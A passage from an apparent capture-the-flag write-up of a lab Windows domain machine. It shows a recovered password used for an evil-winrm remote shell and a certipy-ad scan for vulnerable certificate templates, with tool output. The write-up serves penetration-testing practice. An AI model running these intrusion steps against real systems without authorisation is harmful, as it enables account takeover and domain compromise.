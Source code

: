 We have the following credentials! `Lion.SK`:`!QAZ2wsx`

Let's remote in using `evil-winrm`
```powershell
evil-winrm -i certificate.htb -u Lion.SK -p '!QAZ2wsx'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Lion.SK\Documents>
```

Just like that, we have User!
# Root
`Lion.SK` is a member of `Domain CRA Managers`
![Domain CRA Managers](/assets/img/img_Certificate/Certificate-1748752408132.png)
According to the description of `Domain CRA Managers`.

> The members of this security group are responsible for issuing and revoking multiple certificates for the domain users

So Let's look for vulnerable certificate templates.
```
certipy-ad find -u lion.sk@certificate.htb -p '!QAZ2wsx' -target dc01.certificate.htb -dc-ip 10.129.238.176 -vulnerable 
Certipy v5.0.2 - by Oliver Lyak (ly4k)
                                                                                                                      
[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'                                      
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250601003539_Certipy.txt'
[*] Wrote text output to '20250601003539_Certipy.txt'
[*] Saving JSON output to '20250601003539_Certipy.json'
[*] Wrote JSON output to '20250601003539_Certipy.json'
```